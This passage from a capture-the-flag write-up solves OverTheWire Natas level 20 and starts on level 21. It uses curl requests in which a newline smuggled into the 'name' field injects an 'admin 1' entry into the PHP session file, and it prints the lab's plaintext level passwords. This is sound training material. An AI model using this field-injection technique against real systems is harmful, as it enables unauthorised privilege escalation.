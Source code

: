 ```
abs@MacBookPro OverTheWire % curl "natas20.natas.labs.overthewire.org/index.php?debug=1" -u natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw  -d $'name=vandelay\nadmin 1' -H "Cookie: PHPSESSID=art"
<h1>natas20</h1>
<div id="content">
DEBUG: MYREAD art<br>DEBUG: Reading from /var/lib/php/sessions/mysess_art<br>DEBUG: Read [name vandelay]<br>DEBUG: Read [admin 1]<br>DEBUG: Read []<br>DEBUG: Name set to vandelay
admin 1<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH</pre>
```

# Level 20 -> 21:

```
abs@MacBookPro OverTheWire % curl "natas21.natas.labs.overthewire.org/index.php?debug=1" -u natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH                                                        
...
<h1>natas21</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
<?php

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>
```

Let's try bew other site:
```
abs@MacBookPro OverTheWire % curl "http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=1" -u natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH                                                        
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
)

```